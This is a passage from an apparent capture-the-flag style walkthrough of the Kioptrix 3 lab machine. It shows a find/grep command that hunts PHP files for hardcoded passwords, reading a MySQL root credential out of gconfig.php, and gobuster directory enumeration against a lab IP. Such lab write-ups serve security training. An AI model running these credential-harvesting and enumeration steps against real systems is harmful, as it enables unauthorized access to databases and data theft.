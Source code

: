We use the following find command to look for any hardcoded passwords and we found a mysql password "fuckeyou" that exists in "/home/www/kioptrix3.com/gallery/gconfig.php".

```bash
find / -maxdepth 5 -name *.php -type f -exec grep -Hn password {} \; 2>/dev/null
```

![etc_passwd](/assets/img/posts/kioptrix3/method_2/3.png)

We go to the gallery directory and read the gconfig.php file. And we found a gallery database credentials (username: root and password: fuckeyou).

```bash
cd /home/www/kioptrix3.com/gallery
cat gconfig.php
```

![etc_passwd](/assets/img/posts/kioptrix3/method_2/4.png)

We run gobuster to make sure that there is a phpmyadmin directory on the target web server that we are going to use to login into mysql database.

```bash
gobuster dir --url http://192.168.56.118/ -w /usr/share/wordlists/dirb/common.txt
```
